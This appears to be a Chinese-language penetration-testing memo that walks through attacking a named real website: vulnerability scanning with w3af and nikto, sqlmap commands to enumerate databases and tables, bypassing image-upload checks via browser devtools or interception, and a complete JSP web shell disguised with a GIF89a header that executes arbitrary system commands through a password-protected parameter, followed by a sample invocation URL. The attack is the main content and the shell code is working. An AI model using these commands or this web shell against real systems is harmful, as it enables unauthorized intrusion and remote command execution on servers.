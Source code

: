 ## sql注入
1. w3af对目标网站进行漏洞扫描
    ponderosa.com.tw

    勾选instructor

    audit：

        - sql
        - backdoor
2. sqlmap
```bash
    sqlmap -u [url] --dbs （输出数据库名称）

                ... --dbms mysql -D [dbname] --tables

```


3. nikto
```bash
    nikto --host [domain]
```

    扫描到后台管理网站，输入用户名和密码

4. 找到文件上传功能

    此处找到的是图片上传功能
    假如在前端做了文件验证的话，可以
        - 在f12对js做修改，很轻松的绕过（浏览器调试）
        - 代理的方式，做拦截做中间人攻击


    假如是判断文件头内容的话：
    一句话木马，改文件后缀名.gif
    ```jsp
    Gif89a
    <% if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("
    <pre>");
            while((a=in.read(b))!=-1){
                out.println(new String(b,0,a));
            }
            out.print("</pre>
    ");
        }
    %>
    ```
    或者抓包，中间人注入改文件头
    回显带密码验证，直接执行
    http://192.168.16.240:8080/Shell/cmd2.jsp?pwd=023&i=ls

    可以发现，文件都列出来了，其实这里可以用更专业的工具来搞一哈，但是就算了，测试出漏洞就可以了。











